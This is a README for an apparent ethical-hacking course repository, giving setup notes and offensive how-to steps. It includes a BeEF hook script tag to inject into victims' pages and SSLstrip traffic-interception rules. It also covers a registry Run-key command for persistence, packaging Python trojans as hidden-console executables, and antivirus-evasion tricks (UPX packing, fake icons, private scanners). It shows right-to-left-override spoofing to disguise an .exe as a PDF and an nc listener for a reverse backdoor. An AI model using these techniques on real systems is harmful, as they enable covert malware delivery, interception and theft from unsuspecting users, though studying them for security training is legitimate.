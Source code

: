 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

### Executable files

#### Conveting scripts into executables
##### On Windows
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script (used for creating trojans), use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

##### On Linux
If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

#### Avoiding executables detection
To avoid detection of your .exe files by an Antivirus software, it's recommended to:  
* Use unique source code that possibly might not be yet indexed as malicious.  
* Use a behavior that will trick AV emulation of your code (i.e useless memory allocation, time delay)  

To check whether or not your program is detectable by antiviruses,
you can use services like [NoDistribute](https://nodistribute.com/ "Online virus scanner without results distribution.")
(doesn't share results with AVs' companies)
or [VirusTotal](https://www.virustotal.com/) (shares the results, thus contributing to better IT security).  
Additionally, you can compress your executables to make it even more obfuscated to antiviruses.
Use [UPX](https://github.com/upx/upx "UPX - The Ultimate Packer for eXecutables") for that purpose.  

In order to further our hiding measures, it's recommended to change the icon of our file.
Use [Iconfinder](https://www.iconfinder.com/) to find such icons
and [Easyicon](https://www.easyicon.net/language.en/covert/) to convert them appropriately.
Next, while using pyinstaller, make sure to add `--icon path\to\icon.ico` argument to package .exe with the given icon.  

Last but not least, spoofing the file extension. The trick is based on the character called "Right-to-left Override",
which changes the text orientation to start from right
(this functionality is used by few languages like Hebrew or Arabic).
You can find this character in Characters app on Kali Linux.
This trick can be used like this:  
```text
research-on-human-reflexes.exe
research-on-human-refl‮fdp.exe
```
Remember that such file needs to be compressed into a .zip file or similar,
since direct download will cause this character to be removed in the process.

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  



